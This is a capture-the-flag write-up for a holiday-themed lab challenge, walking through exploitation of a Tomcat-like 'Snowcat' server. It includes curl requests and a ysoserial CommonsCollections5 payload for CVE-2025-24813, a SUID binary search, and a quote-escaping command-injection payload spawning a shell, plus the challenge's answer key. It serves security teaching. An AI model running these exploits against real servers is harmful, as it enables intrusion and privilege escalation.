



## Overview


**Tom**, in the **hotel**, found a wild Snowcat bug. Help him chase down the RCE! Recover and submit the API key not being used by snowcat.


!!! quote "Tom"
	Hi, I'm Tom! I've worked for Counter Hack since its founding in 2010.

	I love all things testing and QA, maintaining systems, logistics, and helping our customers have the best possible experience.

	Outside of work, you'll find me at my local community theater producing shows, helping with sound or video, or just hanging around.

	Learn more about my background at [TomHessman.com](https://tomhessman.com/)!
<div style="clear: both;"></div>

!!! quote "Tom"
	We've lost access to the neighborhood weather monitoring station. There are a couple of vulnerabilities in the snowcat and weather monitoring services that we haven't gotten around to fixing. Can you help me exploit the vulnerabilities and retrieve the other application's authorization key? Enter the other application's authorization key into the badge.

## Hints
??? example "Snowcat (1)"
	Snowcat is closely related to Tomcat. Maybe the recent Tomcat Remote Code Execution vulnerability (CVE-2025-24813) will work here.

??? example "Snowcat (2)"
	Maybe we can inject commands into the calls to the temperature, humidity, and pressure monitoring services.
	
??? example "Snowcat (3)"
	If you're feeling adventurous, maybe you can become root to figure out more about the attacker's plans.

## Solution

### Surveying the Snowcat's Den

Time to explore what Tom's left for us! We fire up our terminal and... ho ho ho, what do we have here?


*fun fact: I just found that I can put emojis on my screenshots!*

Tom's left us a proper exploitation starter kit! We've got an exploit script for `CVE-2025-24813`, the legendary `ysoserial` Java deserialization tool (every pentester's favorite stocking stuffer), some JSP files, and helpful notes. Like any good present unwrapping session, we'll start with the notes!

??? example "notes.md - Exploitation Instructions"
	```bash    
		# Remote Code Execution exploiting RCE-2025-24813
		Snowcat is a webserver adapted to life in the arctic.
		Can you help me check to see if Snowcat is vulnerable to RCE-2025-24813 like its cousin Tomcat?
		## Display ysoserial help, lists payloads, and their dependencies:
		  java -jar ysoserial.jar
		
		## Identify what libraries are used by the Neighborhood Weather Monitoring system
		## Use ysoserial to generate a payload
		Store payload in file named payload.bin
		## Attempt to exploit RCE-2025-24813 to execute the payload
		export HOST=TODO_INSERT_HOST
		export PORT=TODO_INSERT_PORT
		export SESSION_ID=TODO_INSERT_SESSION_ID
		curl -X PUT \
		  -H "Host: ${HOST}:${PORT}" \
		  -H "Content-Length: $(wc -c < payload.bin)" \
		  -H "Content-Range: bytes 0-$(($(wc -c < payload.bin)-1))/$(wc -c < payload.bin)" \
		  --data-binary @payload.bin \
		  "http://${HOST}:${PORT}/${SESSION_ID}/session"
		curl -X GET \
		  -H "Host: ${HOST}:${PORT}" \
		  -H "Cookie: JSESSIONID=.${SESSION_ID}" \
		  "http://${HOST}:${PORT}/"
		
		# Privilege Escalation
		The Snowcat server still uses some C binaries from an older system iteration.
		Replacing these has been logged as technical debt.
		<TOOD_INSERT_ELF_NAME> said he thought these components might create a privilege escalation vulnerability.
		Can you prove these components are vulnerable by retrieving the key that is not used by the Snowcat hosted Neighborhood Weather Monitoring Station?
	```

The notes confirm we're dealing with a Tomcat derivative (hence "Snowcat" - get it?) and point us toward a deserialization attack. The weather JSPs are our target application. Time to check out the dashboard and see what we're up against.

??? example "weather-jsps/dashboard.jsp - Weather Monitoring Code"
	```jsp    
		<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
		<%@ page import="java.io.*" %>
		<%@ page import="org.apache.commons.collections.map.*" %>
		<html>
		<head>
			<title>Neighborhood Weather Monitoring Station</title>
			<link rel="stylesheet" type="text/css" href="styles.css">
		</head>
		<body>
		<div class="dashboard-container">
			<h1>Neighborhood Weather Monitoring Station</h1>
			<p>Providing real-time Neighborhood weather monitoring since 2022.</p>
			<%
				if (session == null || session.getAttribute("username") == null) {
					// No valid session, redirect to login page
					response.sendRedirect("/");
					return;
				}
				String username = (String) session.getAttribute("username");
				String firstname = (String) session.getAttribute("firstname");
				String lastname = (String) session.getAttribute("lastname");
		
				out.println("<h2>Welcome, " + firstname + " " + lastname + "</h2>");
		
				try {
					String key = "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6";
					Process tempProc = Runtime.getRuntime().exec("/usr/local/weather/temperature " + key);
					Process humProc = Runtime.getRuntime().exec("/usr/local/weather/humidity " + key);
					Process presProc = Runtime.getRuntime().exec("/usr/local/weather/pressure " + key);
		
					BufferedReader tempReader = new BufferedReader(new InputStreamReader(tempProc.getInputStream()));
					BufferedReader humReader = new BufferedReader(new InputStreamReader(humProc.getInputStream()));
					BufferedReader presReader = new BufferedReader(new InputStreamReader(presProc.getInputStream()));
		
					String tempLine = tempReader.readLine();
					String humLine = humReader.readLine();
					String presLine = presReader.readLine();
				
					if (tempLine == null || humLine == null || presLine == null) {
						out.println("<p>Error: Unable to retrieve weather data. Please try again later.</p>");
						return;
					}
				
					float temperature = Float.parseFloat(tempLine);
					float humidity = Float.parseFloat(humLine);
					int pressure = Integer.parseInt(presLine); // Parse pressure as integer
		
					// Define min and max values using Apache Commons Collections MultiValueMap
					MultiValueMap ranges = new MultiValueMap();
		
					ranges.put("temperature", 70.0f);
					ranges.put("temperature", -50.0f);
		
					ranges.put("humidity", 100.0f);
					ranges.put("humidity", 0.0f);
		
					ranges.put("pressure", 950);
					ranges.put("pressure", 1050);
		
					// Retrieve min and max values for normalization
					float tempMin = (float) ranges.getCollection("temperature").toArray()[0];
					float tempMax = (float) ranges.getCollection("temperature").toArray()[1];
		
					float humMin = (float) ranges.getCollection("humidity").toArray()[0];
					float humMax = (float) ranges.getCollection("humidity").toArray()[1];
		
					int presMin = (int) ranges.getCollection("pressure").toArray()[0];
					int presMax = (int) ranges.getCollection("pressure").toArray()[1];
		
					// Normalize values using the ranges
					float normalizedTemperature = (temperature - tempMin) / (float) (tempMax - tempMin);
					float normalizedHumidity = (humidity - humMin) / (humMax - humMin);
					float normalizedPressure = (pressure - presMin) / (float) (presMax - presMin);
		
					// Adjust weights based on normalized values for Kansas December weather
					float tempScore = temperature < 2.0f ? 1.0f : (temperature < 6.0f ? 0.5f : 0.0f);
					float humScore = humidity > 70.0f ? 1.0f : (humidity > 50.0f ? 0.5f : 0.0f);
					float presScore = pressure < 1015 ? 1.0f : (pressure < 1025 ? 0.5f : 0.0f);
					float likelihood = tempScore * 50 + humScore * 30 + presScore * 20;
					String likelihoodLevel = likelihood > 75 ? "High" : (likelihood > 50 ? "Medium" : "Low");
		
					out.println("<p>Likelihood of snow: <strong>" + likelihoodLevel + "</strong></p>");
					out.println("<p>Temperature: " + temperature + " °C</p>"); // Explicitly cast to integer
					out.println("<p>Humidity: " + humidity + " %</p>");
					out.println("<p>Pressure: " + (int) pressure + " hPa</p>"); // Explicitly cast to integer
				} catch (Exception e) {
					e.printStackTrace();
					out.println("<p>Error: Unable to retrieve weather data. Please try again later.</p>");
				}
			%>
		</div>
		<script src="snowflakes.js"></script>
		</body>
		</html>
	```
	
Excellent! The dashboard reveals some *juicy* details:

Imports `org.apache.commons.collections.map.*` (our deserialization gadget chain is already gift wrapped!)

Weather data flows from binaries at `/usr/local/weather/{temperature,humidity,pressure}`

An authorization key sits right there in the code: `4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6`

That key belongs to the weather monitoring system itself. Tom wants the other application's key, so our hunt continues!

---

### Weaponizing the Tomcat Clone

[CVE-2025-24813](https://nvd.nist.gov/vuln/detail/CVE-2025-24813) exploits a Java deserialization vulnerability in Tomcat's session persistence mechanism. The attack is beautifully simple: PUT a malicious serialized object to the session endpoint, Tomcat helpfully saves it to disk, then GET the page with that session cookie and... pop goes the weasel! Weasel execu..I mean... code execution achieved!

Tom's provided exploit script automates the whole sleigh ride, but where's the fun in that? We need to understand what's happening under the hood. First, we generate our payload using `ysoserial` with the `CommonsCollections5` gadget chain (remember that import we spotted in `dashboard.jsp?`):

!!! info "Payload Generation"
	```bash    
		java -jar ysoserial.jar CommonsCollections5 'touch /tmp/frosty_wuz_hear' | base64 -w 0
	```
This crafts a serialized payload that executes touch `/tmp/frosty_wuz_hear` when deserialized. It's our proof of concept, a simple test to verify we have code execution by creating a file in the `/tmp` directory.



Now we need to capture that base64 output and feed it to Tom's exploit script along with the proper arguments:

!!! info "Exploiting CVE-2025-24813"
	```bash
		PAYLOAD=$(java -jar ysoserial.jar CommonsCollections5 'touch /tmp/frosty_wuz_hear' | base64 -w 0)
		python3 CVE-2025-24813.py --host localhost --port 80 --base64-payload "$PAYLOAD"
	```
	
??? example "Exploit Output - Success Indicators"
	```bash
		[*] Sending PUT request with serialized session data...
		[PUT] Status: 409 
		<!doctype html><html lang="en"><head><title>HTTP Status 409 – Conflict</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 409 – Conflict</h1><hr class="line" /><p><b>Type</b> Status Report</p><p><b>Description</b> The request could not be completed due to a conflict with the current state of the target resource.</p><hr class="line" /><h3>Apache Tomcat/9.0.90</h3></body></html>
		[*] Sending GET request with session cookie...
		[GET] Status: 500 
		<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> class javax.management.BadAttributeValueExpException cannot be cast to class java.lang.Long (javax.management.BadAttributeValueExpException is in module java.management of loader &#39;bootstrap&#39;; java.lang.Long is in module java.base of loader &#39;bootstrap&#39;)</p><p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p><p><b>Exception</b></p><pre>java.lang.ClassCastException: class javax.management.BadAttributeValueExpException cannot be cast to class java.lang.Long (javax.management.BadAttributeValueExpException is in module java.management of loader &#39;bootstrap&#39;; java.lang.Long is in module java.base of loader &#39;bootstrap&#39;)
				org.apache.catalina.session.StandardSession.doReadObject(StandardSession.java:1199)
				org.apache.catalina.session.StandardSession.readObjectData(StandardSession.java:846)
				org.apache.catalina.session.FileStore.load(FileStore.java:203)
				org.apache.catalina.session.PersistentManagerBase.loadSessionFromStore(PersistentManagerBase.java:723)
				org.apache.catalina.session.PersistentManagerBase.swapIn(PersistentManagerBase.java:672)
				org.apache.catalina.session.PersistentManagerBase.findSession(PersistentManagerBase.java:467)
				org.apache.catalina.connector.Request.doGetSession(Request.java:2722)
				org.apache.catalina.connector.Request.getSessionInternal(Request.java:2467)
				org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:451)
				org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:93)
				org.apache.catalina.valves.AbstractAccessLogValve.invoke(AbstractAccessLogValve.java:660)
				org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:346)
				org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:388)
				org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:63)
				org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:936)
				org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1791)
				org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:52)
				org.apache.tomcat.util.threads.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1190)
				org.apache.tomcat.util.threads.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:659)
				org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:63)
				java.base/java.lang.Thread.run(Thread.java:829)
		</pre><p><b>Note</b> The full stack trace of the root cause is available in the server logs.</p><hr class="line" /><h3>Apache Tomcat/9.0.90</h3></body></html>
	```
Perfect! This is actually what success looks like. Here's what happened:

**PUT Request (409 Conflict):** The server responds with a `409` because the session already exists. No problem! The malicious serialized payload still gets written to disk in Tomcat's session storage.

**GET Request (500 Internal Server Error):** This is the good part! The `500` error proves our exploit worked. Here's what's happening:

- The`GET` request triggers Tomcat to load our poisoned session from disk
- Tomcat deserializes our payload using Java's `readObject()`
- The `CommonsCollections5` gadget chain activates and executes our command (`touch /tmp/frosty_wuz_hear`)
- The server crashes with a `ClassCastException` because our payload object can't complete deserialization properly

The stack trace confirms deserialization occurred:

```
org.apache.catalina.session.StandardSession.doReadObject(StandardSession.java:1199)
org.apache.catalina.session.StandardSession.readObjectData(StandardSession.java:846)
```

The crash happens after our command executes. The `500` error is our victory bell ringing! 🔔

Bingo! Remote code execution achieved. But did it actually work? Time to verify our calling card was delivered:

```bash
ls -la /tmp/frosty_wuz_hear
```


There it is! The file exists and is owned by the `snowcat` user. We're now running commands as `snowcat`. Not bad for a Tomcat clone! But we need more power to access those authorization keys.

---

### Hunting for Privilege Escalation Paths

Running as `snowcat` is nice and cozy, but those weather binaries Tom mentioned probably have better credentials. Time to hunt for `SUID` binaries! These special files run with their owner's permissions rather than ours, and if the owner is `root`... well, that's our golden ticket! 🎫

!!! info "Finding SUID Binaries"
	```bash    
		find / -perm -4000 -type f 2>/dev/null
	```
	


Oooh, lookie! Three `SUID` binaries owned by `root`, all sitting in `/usr/local/weather/`:

- temperature
- humidity
- pressure

These are the exact same binaries the dashboard JSP calls for weather data! When these `SUID` `root` binaries execute, they run with `root` privileges no matter who launches them. If we can exploit one of them, we'll escalate faster than mercury in July! Let's examine one with `strings` to see what secrets it holds:

```bash
strings /usr/local/weather/temperature
```



Now we're getting somewhere! The strings output reveals:

- References to `/usr/local/weather/logUsage` script
- A format string pattern: `%s '%s' '%s'` (command execution vibez!)
- Key validation against `/usr/local/weather/keys/authorized_keys`

This smells fishier than a tuna casserole left out overnight (bleeeeh). The binary is probably executing something along the lines of:

```bash
/usr/local/weather/logUsage 'temperature' 'our-key-here'
```

Notice those single quotes? If we can escape them, we can inject our own commands and ride this SUID binary straight to elevated privileges! *Classic* command injection waiting to happen...

---

### Breaking Free with Command Injection

Time to test our theory! We'll use the legitimate weather monitoring key we found earlier in the dashboard.jsp code, but with a little extra seasoning. Our goal: spawn a shell by escaping those single quotes.

!!! info "Command Injection Payload"
	```bash
		/usr/local/weather/temperature "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6'; /bin/bash; #"
	```
	
Here's how our payload works its magic:

- `4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6'` - Closes the first single quote the binary adds (this is the weather system's key from `dashboard.jsp`!)
- `;` - Ends that command
- `/bin/bash` - Starts our glorious shell
- `;` - Ends our command
- `#` - Comments out everything after (including the closing quote the binary will try to add)

The binary thinks it's just logging temperature usage, but we're actually breaking out and spawning a shell. Let's do this!


We're in! You'll see the temperature value `1.61` output first (that's the legitimate temperature reading), then a `.bashrc: Permission denied` error (normal for restricted shells), but most importantly, check out our new identity: the shell is running as the `weather` user, courtesy of that `SUID` bit doing exactly what it's supposed to do (just not what the developers intended). We've escalated from `snowcat` to `weather`, and now we can access files that were previously off limits!

---

### Raiding the Authorization Vault

Remember that `/usr/local/weather/keys/authorized_keys` file we spotted in the strings output? That's our target! Now that we're running as the `weather` user, we should have access to it. Time to see what secrets it holds:

```bash
cat /usr/local/weather/keys/authorized_keys
```


Aha! Two keys in the vault:

- 4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6 - Our old friend from the dashboard.jsp (the weather monitoring system's key)
- **8ade723d-9968-45c9-9c33-7606c49c2201** - The mysterious stranger!

The second key must be the "other application's" authorization key Tom needs! Let's hand it over:

!!! success "The Key!!"
    8ade723d-9968-45c9-9c33-7606c49c2201

And that's how you thaw out a frozen weather station! We exploited `CVE-2025-24813` to get our foot in the door as `snowcat`, discovered some poorly secured `SUID` binaries, injected commands to escalate to the `weather` user, and finally retrieved the hidden API key. Tom's weather monitoring is back online and the neighborhood can rest easy knowing when the next blizzard is coming! ❄️

<div class="nav-buttons">
  <a href="/objectives/o20" class="nav-button nav-left">← Hack-a-Gnome</a>
  <a href="/objectives/o22" class="nav-button nav-right">Next: Schrödinger's Scope →</a>
</div>